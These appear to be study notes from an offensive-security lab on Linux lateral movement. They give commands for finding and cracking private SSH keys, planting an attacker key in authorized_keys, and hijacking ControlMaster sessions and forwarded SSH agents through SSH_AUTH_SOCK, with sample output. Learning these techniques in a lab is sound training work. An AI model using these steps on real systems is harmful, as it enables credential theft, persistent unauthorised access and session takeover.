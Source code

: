 # Linux Lateral Movement

First,
we’ll leverage SSH and demonstrate how to steal keys and hijack open sessions. We will then
explore large-scale DevOps829 technologies and leverage both Ansible and Artifactory. Finally, we’ll
demonstrate how Kerberos-enabled Linux systems can create a bridge into Windows domains
and leverage this for lateral movement.


we need to configure our /etc/hosts file first with

```dotnetcli
controller: 192.168.120.40
• linuxvictim: 192.168.120.45
• dc01.corp1.com: 192.168.120.5
```

# lateral movement with ssh

ssh private kes are exellent opportunity for lateral movement.
The public key is stored in the ~/.ssh/authorized_keys file of the
server the user is connecting to. The private key is typically stored in the ~/.ssh/ directory on the
system the user is connecting from.ls

# ssh keys

ssh kes have permission set to 600

private keys are named as id_rsa by default 

we can use `find /home/ -name "id_rsa"`

if nothing comes up then there might be no keys with admin permission

```
└─$ find /home/ -name "id_rsa"
/home/kali/.ssh/id_rsa
```

It is always beneficial to look into the users home directory because the key could be stored with a different name there.

for example `svuser.key`

we can look at known_hosts

`cat ~/.ssh/known_hosts`

`tail .bash_history`

if they are connected to a controller server using svuser account then we can use host controller.

we can crack the passphrase through john the ripper

`sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./svuser.hash`

`ssh -i ./svuser.key svuser@controller`

# SSH Persistence

~/.ssh/authorized_keys - 

ssh-keygen

echo "ssh-rsa AAAAB3NzaC1yc2E....ANSzp9EPhk4cIeX8=
kali@kali" >> /home/linuxvictim/.ssh/authorized_keys

ssh linuxvictim@linuxvictim

### 14.1.2.1 Exercises
1. Generate a private keypair with a passphrase on your Kali VM. Try to crack the passphrase
using JTR.
2. Generate a private keypair on your Kali VM and insert your public key in the linuxvictim user’s
authorized_keys file on the linuxvictim host and then SSH to it.

# SSH Hijacking with ControlMaster

The term SSH hijacking refers to the use of an existing SSH connection to gain access to another
machine. Two of the most common methods of SSH hijacking use the ControlMaster836 feature
or the ssh-agent.837
ControlMaster is a feature that enables sharing of multiple SSH sessions over a single network
connection. This functionality can be enabled for a given user by editing their local SSH
configuration file (~/.ssh/config).

```
Host *
ControlPath ~/.ssh/controlmaster/%r@%h:%p
ControlMaster auto
ControlPersist 10ma
```

These ControlMaster settings can also be placed in /etc/ssh/ssh_config to
configure ControlMaster at a system-wide level.

```
chmod 644 ~/.ssh/config
mkdir ~/.ssh/controlmaster

ls -al ~/.ssh/controlmaster/
```

# SSH Hijacking uing SSH Agent and SSH Agent forwarding

SSH-Agent is a utility that keeps track of a user’s private keys and allows them to be used without
having to repeat their passphrases on every connection.

For our SSH connections to work using SSH-Agent forwarding, we need to have our public key
installed on both the intermediate server and the destination server. In our case, the intermediate
server will be the controller machine and the destination server will be linuxvictim. We can copy
our key to both of them using the ssh-copy-id command from our Kali VM, specifying our public
key with the -i flag.

`ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@controller`

~/.ssh/config we need to put a forwardingAgent yes

eval `ssh-agent`

ssh-add

ssh offsec@controller

Note that in the attacker session, we’ll ssh to the intermediate box from a root
kali shell to make sure that we are not leveraging the key pair we have in the kali
home folder for authenticating with the intermediate server. In a real scenario,
the attacker connection to the intermediate server would be performed from a
different box.

ps aux | grep ssh

pstree -p offsec | grep ssh

cat /proc/16381/environ 

```
SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh-add -l
3072 SHA256:6cyHlr9fISx9kcgR9+1crO1Hnc+nVw0mnmQ/Em5KSfo kali@kali (RSA)
root@controller:~# SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh
offsec@linuxvictim
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-20-generic x86_64)
...
Last login: Thu Jul 30 11:14:26 2020 from 192.168.120.40
```

### 14.1.4.1 Exercises
1. Reproduce ControlMaster hijacking in the lab.
2. Reproduce SSH-Agent forwarding hijacking in the lab.

# Devops

There are many systems available that perform these sorts of functions. Puppet842 and Chef843
are both popular, but in this module we will take a closer look at Ansible,844 which we’ve frequently
encountered in penetration testing engagements.

# introduction to ansible

We can find the host inventory on the controller at /etc/ansible/hosts.


